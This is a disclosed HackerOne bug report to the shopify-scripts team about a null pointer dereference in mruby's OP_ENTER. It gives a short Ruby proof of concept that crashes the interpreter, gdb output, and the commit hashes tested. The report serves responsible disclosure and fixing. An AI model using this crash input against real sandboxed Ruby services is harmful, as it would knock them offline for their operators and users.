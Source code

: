 # Null pointer dereference in OP_ENTER

## Report Details
- **Report ID**: 218233
- **URL**: https://hackerone.com/reports/218233
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-04-03T01:22:23.604Z
- **Disclosed**: 2017-04-15T14:45:14.601Z

## Reporter
- **Username**: dgaletic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
===
The following demonstrates a crash:

    class A
      def foo
      end
    end

    class B < A
      def foo(*args)
        super(*args, &:b)
      end
    end

    B.new.foo

Debug info
==========

The null pointer dereference happens in vm.c:1572 in both mruby and mruby-engine:

    1570│       if (argc < 0) {
    1571│         struct RArray *ary = mrb_ary_ptr(regs[1]);
    1572├>        argv = ary->ptr;

    (gdb) p ary
    $1 = (struct RArray *) 0x0


Test platform
=============
* Linux Mint 17.3 (Cinnamon 64-bit), built with gcc version 4.8.4 (Ubuntu 4.8.4-2ubuntu1~14.04.3

mruby SHA: a14a930c800aa50a191922580d53a2ce09287912
mruby-engine SHA: 09be20e67888b20bebf9b0588bc3cbec7f55325f

Thank you,
Dinko Galetic
Denis Kasak

## Attachments
No attachments
